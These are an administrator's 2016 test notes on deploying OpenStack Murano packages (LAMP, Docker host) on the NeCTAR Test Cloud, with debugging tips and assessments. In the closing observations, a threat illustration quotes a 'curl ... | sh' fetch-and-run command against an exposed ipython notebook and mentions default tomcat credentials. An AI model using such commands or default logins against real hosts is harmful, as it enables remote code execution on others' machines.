 ==================================
Murano: Tests on NeCTAR Test Cloud
==================================

Date of Testing: 8-Apr-2016

The following document is based on notes on testing the Murano deployment on the NeCTAR Test Cloud
https://dashboard.test.rc.nectar.org.au with the intent of understanding:

- How to use Murano?
- What is it good for?


"""""""""""""

*************
General Notes
*************

- If you get an error with importing one of the standard packages, just try a few times until it works.
- When browsing packages on https://apps.openstack.org/#tab=murano-apps, don't forget to check on the **"Depends On"** section to
  add any other packages or images required. They in turn may have more dependencies.

"""""""""""""

****************
Debugging Murano
****************

This is what I found useful:

- Dashboard > Applications > Applications Catalog > Environments > (selected environment) > Topology tab

        This visually shows you what you are trying to build. 

        The entity nodes will display whether it was successful or failed according to Murano.

- Dashboard > Applications > Applications Catalog > Environments > (selected environment) > Lastest Deployment Log tab

        Log of sequence of actions Murano conducted during the build steps. 

        The logs come from the packages so the verbosity depends on the author of the package. Find them in the package's
Classes/\*.yaml

- Dashboard > Project > Orchestration > Stacks > (selected stack) > Template

Shows you the actual HEAT template that MURANO generated for your environment.

For example, you'll find bugs in the packages due to hardcoded text displayed here.

- VM Instance > SSH > /var/log/murano-agent.log

Lots of logs. It should show you where the deployment stopped if you are debugging the instance setup problems.

"""""""""""""


********************************************
LAMP Environment from multiple components
********************************************

**Packages:**

Packages can be found at https://apps.openstack.org/#tab=murano-apps but here are the links to the ones I used:

1. MySQL 

 - http://storage.apps.openstack.org/apps/io.murano.databases.MySql.zip
 - https://github.com/openstack/murano-apps/tree/master/MySQL/package

2. Apache

 - http://storage.apps.openstack.org/apps/io.murano.apps.apache.ApacheHttpServer.zip
 - https://github.com/openstack/murano-apps/tree/master/ApacheHTTPServer/package

**Setup:**

1. Download package zip files

2. Log on to test cloud 

3. Go to Applications > Manage > Package Definitions

4. Click 'Import Package', upload both packages

5. Go to Applications > Applications Catalog > Environments

6. Click 'Create Environment', name it and leave defaults

7. Drag & Drop 'Apache HTTP Server' as a component, Enable PHP YES, Floating IP YES

 - Choose any instance flavour
 - Instance Image: Ubuntu 14.04 x64 (pre-installed murano-agent)
 - Your key pair
 - Availability zone: **coreservices** (the only one working at time of writing on test cloud)

8. Drag & Drop 'MySQL' as a component, Floating IP YES

 - Set Database name, Username, Password, Confirm Password
 - **Note them somewhere!!! You will need it later to use the database.**
 - Choose any instance flavour
 - Instance Image: Ubuntu 14.04 x64 (pre-installed murano-agent)
 - Your key pair
 - Availability zone: **coreservices** (the only one working at time of writing on test cloud)

9. Click 'Deploy This Environment'

Murano will generate HEAT templates from what we have specified. It will automatically add a few things on your behalf like private
networks and router. You can customise this too but we left it as defaults. 

HEAT Orchestration will follow automatically, building the full system specified.

10. Post-Murano Actions to complete the exercise

 - Add Security Group for MySQL port and apply to MySQL instance
 - SSH onto Apache server to add application code. This is the point where you will utilise the database name, username and password
   credentials, created when specifying the MySQL component


Test Observations:

- Test Cloud Murano is still buggy. 2 out of my 3 deployments failed. No real changes between these attempts other than "try again".

- MySQL component in particular: Deployment logs will state deployment complete although after logging on the server, it is not
  installed. Of course eventually it worked in subsequent full environment deployments.

- The Good: Good for developers / system admins who are composing the environment as a once off and don't mind manually doing the
  remaining tasks

- The Bad: Not great if you are looking at this to deploy your App by composing multiple packages. If that is the case, make your
  own single-package that does both MySQL+Apache and automate Security Groups, Application deployment and even the database
credentials. 

"""""""""""""

**********************
Docker StandAlone Host
**********************

**Packages:**

Packages can be found at https://apps.openstack.org/#tab=murano-apps but here are the links to the ones I used:

1. Docker Interface Library (dependency)

 - http://storage.apps.openstack.org/apps/io.murano.apps.docker.Interfaces.zip
 - https://github.com/openstack/murano-apps/tree/master/Docker/DockerInterfacesLibrary

2. Docker StandAlone Host

 - http://storage.apps.openstack.org/apps/io.murano.apps.docker.DockerStandaloneHost.zip
 - https://github.com/openstack/murano-apps/tree/master/Docker/DockerStandaloneHost

**Pre-requisites:**

3. Docker image

 - Download image from - https://apps.openstack.org/#tab=glance-images&asset=Debian%208%20x64%20(pre-installed%20Docker)
 - Have your OpenStack API credentials ready
 - Make sure you have the glance CLI
 - ``glance --os-image-api-version 1 image-create --file debian-8-docker.qcow2 --disk-format qcow2 --container-format bare --name
   'ubuntu14.04-x64-docker' --property murano_image_info="{\"title\": \"ubuntu14.04-x64-docker\", \"type\": \"linux\"}"``


**Setup:**

1. Download package zip files

2. Log on to test cloud 

3. Go to Applications > Manage > Package Definitions

4. Click 'Import Package', upload both packages

5. Go to Applications > Applications Catalog > Environments

6. Click 'Create Environment', name it and leave defaults

7. Drag & Drop 'Docker StandAlone Host' as a component, Floating IP YES

 - Choose any instance flavour
 - Your key pair
 - Availability zone: **coreservices** (the only one working at time of writing on test cloud)

8. Post-Murano Actions to complete the exercise

 - SSH onto server
 - Run ``docker pull ...`` commands as needed
 - Run ``docker run ...`` commands as needed
 - Add Security Groups for the instance as needed (e.g. http)


Test Observations:

- Quite easy to do. I'm not sure what the Murano package adds other than instantiating the image.

- Quite a few of the other Murano Community Applications apply this practice of loading a pre-built image rather than risking HEAT
  templates to call shell, ansible/puppet...etc to install software.

- The Good: It is a really good example of wrapping up a perfected image and then giving it a GUI on the horizon dashboard that you
  can add a few parameters to customise. 

- The Bad: This can give the illusion that you are getting an Application, like Software as a Service or in this case, a PaaS.
  However, the user actually still has all the responsibilities of the instance such as server patching, maintenance, backup,
vulnerability risks ...etc of a machine that will be on the internet. 

- In this case, I added a container for ipython notebooks on my Docker host. The following observation is true for a Murano package
  of a ipython VM instance though: ipython has no concept of users, it would not be hard for a malicious user scanning NeCTAR IP
addresses to find this service, start a new notebook and run '``!curl http://bit.ly/blahblah | sh``'. 

 - What about apache tomcat with all the default tomcat:tomcat user/pass out there?
 - Or an R studio with some default user/password for another '``system(curl|sh)``'?
 - So far, packages on the Murano community catalog seems to require a few post-deployment system admin tasks for the user to
   perform before it is ready depending on the application.
 - My point is that there is a level of IT design consideration by the package author and/or user to address. Based on this, I
   believe the user should still have some degree of system admin skills.

